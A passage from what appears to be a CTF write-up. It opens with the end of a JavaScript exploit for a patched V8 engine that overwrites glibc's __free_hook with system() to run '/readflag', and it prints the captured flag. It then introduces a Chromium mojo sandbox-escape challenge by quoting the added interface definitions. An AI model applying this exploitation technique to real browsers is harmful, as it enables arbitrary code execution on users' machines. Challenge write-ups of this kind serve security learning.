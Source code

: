 ```javascript
        %ArrayBufferDetach(X[i].buffer);
    
    X[0xf].set(uint84,0);
    new ArrayBuffer(0x60);
    const uint87 = new Uint8Array(new ArrayBuffer(0x60)); // get the buffer !
 
    // We now get the ArrayBuffer which its buffer address is near __free_hook
    // Overwrite __free_hook to system
    const RIP = libc+0x4f440n; // system
    float64[0] = itof(RIP);
    for(let i=0;i<0x8;i++)
        uint87[i+0x13-8] = uint82[i];

    // Construt the CMD in another ArrayBuffer
    var CMD = "/readflag";
    var cmd = new Uint8Array(new ArrayBuffer(0x80));
    for(let i=0;i<CMD.length;i++) {
        cmd[i] = CMD.charCodeAt(i);
    }
  
    // Free the ArrayBuffer will call system(CMD);
    %ArrayBufferDetach(cmd.buffer);  
}
pwn();
```

flag: `flag{dbc68439ba5f2cdbccf459cd3edb54c80b9c89e9}`

### Chromium SBX

This time we were ask to pwn a patched Chromium binary. The environment settings of this challenge is pretty similar to the [mojo challenge](https://ctftime.org/task/11314) in this year's Plaid CTF. The author added some vulnerable mojo interfaces in Chromium and we'll have to exploit the vulnerability in order to get the flag of this challenge.

> We're not familiar with Chrome's mojo, so lots of concept/terminology might be wrong, but here's how we solve the challenge:


#### Vulnerability
By looking at the diff file we know that the challenge added two mojo interfaces in the browser:

```
module blink.mojom;

interface TStorage {
    Init() => ();
    CreateInstance() => (pending_remote<blink.mojom.TInstance> instance);
    GetLibcAddress() => (uint64 addr);
    GetTextAddress() => (uint64 addr);
};

interface TInstance {
    Push(uint64 value) => ();
    Pop() => (uint64 value);
    Set(uint64 index, uint64 value) => ();
    Get(uint64 index) => (uint64 value);
    SetInt(int64 value) => ();
    GetInt() => (int64 value);
    SetDouble(double value) => ();
    GetDouble() => (double value);
    GetTotalSize() => (int64 size);
};
```
